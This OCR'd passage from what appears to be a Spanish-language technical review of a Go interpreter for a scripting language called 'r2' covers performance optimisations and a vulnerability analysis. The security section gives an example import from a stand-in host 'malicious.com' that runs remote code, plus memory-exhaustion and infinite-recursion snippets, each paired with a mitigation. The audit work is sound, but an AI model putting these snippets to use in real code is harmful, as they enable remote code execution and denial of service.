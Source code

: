 **2. Type Conversion Overhead**
```go
// toFloat() llamado en cada operación aritmética
func addValues(a, b interface{}) interface{} {
    return toFloat(a) + toFloat(b)  // Type assertion + conversion
}

// Optimización: Type tagging
type Value struct {
    Type ValueType
    Data interface{}
}
```

**3. AST Node Allocation**
```go
// Cada expresión crea nuevos nodes
left = &BinaryExpression{Left: left, Op: op, Right: right}

// Optimización: Object pooling
var binaryExprPool = sync.Pool{
    New: func() interface{} { return &BinaryExpression{} },
}
```

### Security Analysis

#### Vulnerabilities Identificadas

**🔴 CRÍTICAS**

**1. Code Injection via Import**
```r2
import "http://malicious.com/evil.r2" as evil
// Ejecuta código remoto sin validación
```
**Impacto**: Remote code execution
**Mitigación**: Sandbox para imports, whitelist de dominios

**2. Memory Exhaustion**
```r2
// Infinite array growth
let arr = []
while (true) {
    arr.push(generateLargeObject())  // Memory bomb
}
```
**Impacto**: Denial of service
**Mitigación**: Memory limits, garbage collection mejorado

**3. Stack Overflow Attack**
```r2
func infiniteRecursion() {
    return infiniteRecursion()  // Sin límite de stack
}
```
**Impacto**: Crash del intérprete
**Mitigación**: Call stack depth limit
